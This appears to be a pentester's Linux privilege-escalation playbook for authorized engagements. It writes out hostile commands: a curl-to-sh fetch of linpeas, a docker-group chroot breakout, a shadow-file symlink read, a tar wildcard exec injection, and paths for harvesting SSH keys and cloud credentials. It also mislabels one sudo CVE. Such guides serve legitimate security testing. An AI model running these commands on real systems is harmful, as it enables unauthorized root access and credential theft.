

# Privilege Escalation — Linux

Authorized engagements. Prove escalation, do not run it repeatedly, do not touch other accounts.

MITRE: https://attack.mitre.org/tactics/TA0004/ (filter Linux).

## Flow



## Enumeration — linpeas flow

Fastest broad sweep:

```bash
curl -fsSL https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh -s -- -a | tee linpeas.out
```

Offline fallback — pinned release: https://github.com/peass-ng/PEASS-ng/releases. Alternative minimal: LinEnum https://github.com/rebootuser/LinEnum, or one-shot `linuxprivchecker` https://github.com/sleventyeleven/linuxprivchecker.

Review in this order:

1. Kernel version + distro → known-vuln kernel?
2. SUID list → weird binaries?
3. Sudo `-l` → NOPASSWD, unsafe commands?
4. Capabilities → cap_setuid on anything non-standard?
5. World-writable in PATH?
6. Cron / timers running as root calling user-writable script?
7. Creds in environment, `.bash_history`, configs under `/etc`, `/opt`, `/var/www`?

## SUID / SGID

```
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null
```

Cross-reference hits against GTFOBins: https://gtfobins.github.io/. If `find`, `vim`, `less`, `nmap`, `awk`, `python`, `perl` are SUID — they have documented SUID escape payloads there.

Legit SUID (don't waste time): `ping`, `mount`, `umount`, `su`, `sudo`, `passwd`, `chsh`, `chfn`, `gpasswd`, `newgrp`, `pkexec` (but see polkit CVEs below), `crontab`, `fusermount`.

## Sudo misconfiguration

```
sudo -l
```

Look for:

- `NOPASSWD` on any binary listed on GTFOBins
- `(ALL) ALL` on a non-admin account
- `env_keep` containing `LD_PRELOAD` or `LD_LIBRARY_PATH` — preload a crafted .so via an allowed binary (CVE-2019-18634 / Baron Samedit style already patched; modern route is env abuse)
- Wildcards in command paths — `sudo /usr/bin/foo /opt/app/*` → `ln -s /etc/shadow /opt/app/a` then read

Historic CVEs (verify target sudo version with `sudo -V`):

- CVE-2021-3156 "Baron Samedit" — heap overflow, sudo < 1.9.5p2
- CVE-2019-14287 — `-u#-1` → root on sudo < 1.8.28

Reference: https://www.sudo.ws/security/advisories/.

## Capabilities

```
getcap -r / 2>/dev/null
```

Dangerous caps + GTFOBins entry:

- `cap_setuid+ep` on any scripting binary (python, perl, ruby, node) → instant root
- `cap_dac_read_search+ep` on `tar`, `cat`, `less` → read arbitrary files
- `cap_chown+ep`, `cap_fowner+ep` → file ownership pivot

GTFOBins "Capabilities" column indexes payloads.

## Polkit / pkexec

CVE-2021-4034 ("PwnKit") — polkit <= 0.120 in most distros. Patched, but unpatched long-tail systems remain. Verify with `pkexec --version`. Reference: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt. Public PoC: https://github.com/ly4k/PwnKit (exploit) — use only on authorised targets.

## dbus / snap / container breakouts

- Snap CVE-2019-7304 "Dirty Sock" — very old, rare.
- Docker misconfig: user in `docker` group == root (add user to group, `docker run -v /:/mnt -it alpine chroot /mnt sh`). Not a CVE, a design.
- LXC/LXD same pattern.
- Read `/proc/self/status` / `/proc/1/cgroup` — containers often reachable if caps leaked.

## Kernel exploits

Only when nothing else works. Reliable kernel exploits are rare and often crash machines.

```
uname -a
cat /etc/os-release
searchsploit linux kernel <major.minor>
```

Recent themes (verify applicability — don't blind-fire):

- CVE-2022-0847 "Dirty Pipe" — kernel 5.8 – 5.16.11
- CVE-2023-32233 — nftables UAF, 6.3.1 and older
- CVE-2024-1086 — nft_verdict_init double-free (patched early 2024)

Don't run kernel exploits without a rollback window; they panic.

## Cron / timer hijack

```
cat /etc/crontab /etc/cron.d/* 2>/dev/null
ls -la /etc/cron.* 
systemctl list-timers --all
```

Things to find:

- Script run as root in world-writeable dir → overwrite script
- Script references `*` in path → wildcard trick (e.g. `tar *` in /tmp → `--checkpoint-action=exec=sh x.sh`)
- Timer unit `ExecStart=` path user-writable

## PATH hijack

```
echo $PATH
ls -la /usr/local/bin /opt/bin
```

If a SUID or root-cron script calls `foo` by bare name and a writeable dir precedes the real one, drop a shim.

## Credential harvesting

- `~/.bash_history`, `~/.*_history`, `~/.lesshst`
- `find / -name id_rsa -o -name authorized_keys -o -name '*.pem' 2>/dev/null`
- `/etc/shadow` readable? (bad) — `john` or `hashcat`
- App configs: `/var/www/**/config.php`, `/opt/**/application.properties`, `~/.aws/credentials`, `~/.azure/`, `~/.kube/config`, `~/.docker/config.json`, `.env` in repo roots
- `ps auxe` — environment of other processes when `hidepid` isn't set
- `/proc/*/environ` — same
- `memdump` / `gcore` a process after getting root in LSASS-analogue workflow (rare on Linux)

## NFS / shared FS

- `showmount -e <host>` — `no_root_squash` export means your root-on-client = root on NFS files.
- Kubernetes `hostPath` mount pivot — see cloud-attacks.md.

## Reporting

For every finding:

- Pre-exploit state (uname, sudo -V, relevant version)
- Exact command(s) run, their output
- Post-exploit proof (`id` as root, `/etc/shadow` first line hashed, screenshot)
- Cleanup steps taken
- Remediation reference (distro advisory, patch URL)

## References

- GTFOBins — https://gtfobins.github.io
- PEASS-ng — https://github.com/peass-ng/PEASS-ng
- HackTricks Linux PrivEsc — https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html
- Sudo advisories — https://www.sudo.ws/security/advisories/
- kernel.org CVE index — https://www.kernel.org/doc/html/latest/process/cve.html
